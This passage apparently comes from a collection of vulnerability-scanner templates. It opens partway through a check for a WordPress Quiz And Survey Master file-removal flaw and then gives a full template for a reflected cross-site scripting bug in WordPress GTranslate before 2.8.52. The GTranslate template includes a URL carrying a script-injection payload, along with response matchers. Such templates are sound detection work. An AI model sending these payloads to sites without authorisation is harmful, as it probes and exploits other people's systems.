 **Type - word**
- words
    1. {"type":"success","message":"File removed successfully"}
- part - body

**Type - dsl**
- dsl
    1. contains((body_1), '# Quiz And Survey Master') && status_code_4==301 && !contains((body_4), '# Quiz And Survey Master')
### Extractors

**Type - regex**
- name - fullpath
- internal - True
- part - body
- group - 1
- regex
    1. not found in \<b>([/a-z_]+)wp

---
# WordPress GTranslate \<2.8.52 - Cross-Site Scripting
## Description
- WordPress GTranslate plugin before 2.8.52 contains an unauthenticated reflected cross-site scripting vulnerability via a crafted link. This requires use of the hreflang tags feature within a sub-domain or sub-directory paid option.

- severity - medium
- tags - cve,cve2020,wordpress,xss,plugin,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/does_not_exist"%22%3E%3Cscript%3Ealert("XSS")%3C/script%3E\<img%20src=x
### Matchers

**Type - word**
- part - body
- words
    1. \<script>alert("XSS")\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---